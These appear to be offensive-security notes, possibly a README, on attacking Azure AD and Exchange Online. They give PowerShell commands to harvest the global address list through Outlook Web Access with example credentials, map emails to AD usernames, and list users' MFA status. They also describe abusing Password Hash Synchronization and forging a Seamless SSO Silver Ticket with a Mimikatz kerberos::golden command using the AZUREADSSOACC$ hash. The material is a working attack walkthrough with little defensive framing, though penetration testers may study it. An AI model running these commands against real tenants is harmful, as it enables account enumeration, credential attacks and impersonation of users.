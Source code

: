 # Password Spraying
By connecting to Outlook Web Access Portal and utilizing the FindPeople method, it is able to gather the list of all email addresses:
```
Get-GlobalAddressList -ExchHostname outlook.office365.com -UserName thureinsoe@insomnia.com -Password 123456%*@aA -OutFile global-address-list.txt

```
# Exchange Service
Connecting to Exchange Service, it is also able to retrieve the Active Directory username corresponding to the given email address
```
Get-ADUsernameFromEWS -EmailList gotham-emails.txt -ExchHostname outlook.office365.com -Remote
```
# Enabling Multi-Factor Authentication Users
The following MSOnline PowerShell command allows Azure AD administrators to list Azure AD users and the state of their MFA configuration
```
Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequirements.State} else { "Disabled"}}} | export-csv mfaresults.csv
```
# Password Hash Synchronization (PHS)
This attack is not actually targeting Azure AD but exploiting one of its features in order to escalate privileges on the on-premise Active Directory domain it is synchronized with. Remember Password Hash Synchronization? As explained earlier in this post, a synchronisation account is created by Azure AD Connect on the on-premises Active Directory

# Seamless Single Sign-On (SSO)
Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatically signs users in when they are on their corporate devices connected to your corporate network. When enabled, users don't need to type in their passwords to sign in to Azure AD.This feature provides your users easy access to your cloud-based applications without needing any additional on-premises components.When the user wants to connect to Azure AD, the Domain Controller provides him a service ticket for Azure AD. Service tickets are encrypted with the password of a computer account named AZUREADSSOACC$, automatically created when enabling this feature.

In order to do so, the following parameters are required:

* Username of the user to impersonate.
* Domain name.
* NTLM hash of the AZUREADSSOACC$ account.
* SID of the user to impersonate.
* Target service, which is HTTP/aadg.windows.net.nsatc.net.

** Having this information we can now create and use the Silver Ticket on any Windows computer connected to the internet Service **
```
kerberos::golden /user:NyaMeeEain /domain:insomnia.com /rc4:db[...]59 /sid:S-1-5-21-805388781-1469664503-1626361301-1106 /id:1234 /target:XXXXXXX.net /service:HTTP /ptt
```
